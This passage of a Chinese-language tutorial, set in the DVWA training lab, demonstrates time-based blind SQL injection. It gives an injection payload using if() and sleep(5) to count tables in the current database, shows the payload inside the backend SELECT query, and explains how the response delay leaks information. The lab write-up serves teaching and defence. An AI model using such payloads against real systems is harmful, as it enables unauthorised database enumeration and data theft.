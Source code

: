 ```
#第二句
1’ and if((select count(table_name) from information_schema.tables where table_schema=database() )=2,sleep(5),1)#
```

![show-sleep-1](../imgs/wm_190.png)

此句执行之后，页面加载了有一段时间才出现反应。

这就是基于时间的盲注，通过这样的时间差异来增加我们的判断，从上面两种方式的时间差别我们可以得出在我们当前所使用的数据库中只有两张数据表。

因为当我们将第一句套入至 SQL 语句中，我们可以看到：

```
SELECT first_name, last_name FROM users WHERE user_id = '1’ and if((select count(table_name) from information_schema.tables where table_schema=database() )=1,sleep(5),1)#'
```

这个 SQL 稍微有些复杂，我们一部分一部分来看，其中 `'1'` 就不用解释了，然后中间是用的 `and`
符号来连接，if 中用 conunt 统计了当前数据库的表个数然后与 1 相比较，若是真的便执行 sleep() 函数，若是假则不执行。

我们知道我们执行的时候并没有任何的延时，所以说明数据库中表的数量不是 1，而第二句中则是与 2 相比较，我们感受到了延时，说明数据库中有两张表，这样的判断正确。并且我们在上一节试验中尝试过，的确在 dvwa 的数据库中也就两张表。
